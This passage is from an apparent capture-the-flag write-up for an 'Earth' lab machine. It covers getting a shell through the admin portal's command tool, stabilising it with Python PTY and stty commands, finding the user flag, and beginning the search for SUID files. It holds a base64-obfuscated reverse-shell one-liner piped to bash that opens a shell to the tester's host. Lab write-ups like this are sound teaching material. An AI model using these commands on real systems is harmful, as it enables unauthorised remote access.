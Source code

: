 Now to execute this on the remote server we can run the following command in the commandline tool present on the admin portal.(Make sure your listener is running and base64 encode your own reverse shell!)
```
echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMC4yLjUvOTAwMSAwPiYx==" | base64 -d | bash
```
After running the above command, we get a bare minimum shell as apache user.

![got_shell](/assets/earth/got_shell.png)

Let's try to stabilise our shell, for that, first let's look for python and then using the following commands, we can stabilise our reverse shell.

Stabilising the shell is not a necessary thing to do but in some cases we might have to use the same shell for quite some time so it might not be the best experience to work with an incomplete shell with missing features like Tab auto-complete and many more. We can use the following sequence of commands to stabilise our shell.

```
which python
````
And if python or python3 is present -
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![shell_stab](/assets/earth/shell_stab.png)

After that, we have to background the shell using CTRL-Z and then use the following command to bring the shell back.  
```
stty raw -echo;fg;reset
```
![shell_comp](/assets/earth/shell_comp.png)

It is still not the best of the shells but it is significantly better than what we got before.  

### Privilege Escalation

Before I worked with the privilege escalation part, I decided to look for the user flag. And while looking for non-default directories, we can see in the /var/earth_web directory we have our user flag

![user_flag](/assets/earth/user_flag.png)

In the home folder we have no luck because the directories are totally inaccessible by the apache user. Now the best thing left for us to do is to look for files with SUID bits. You can read about SUID bits and other permissions on the following [website](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
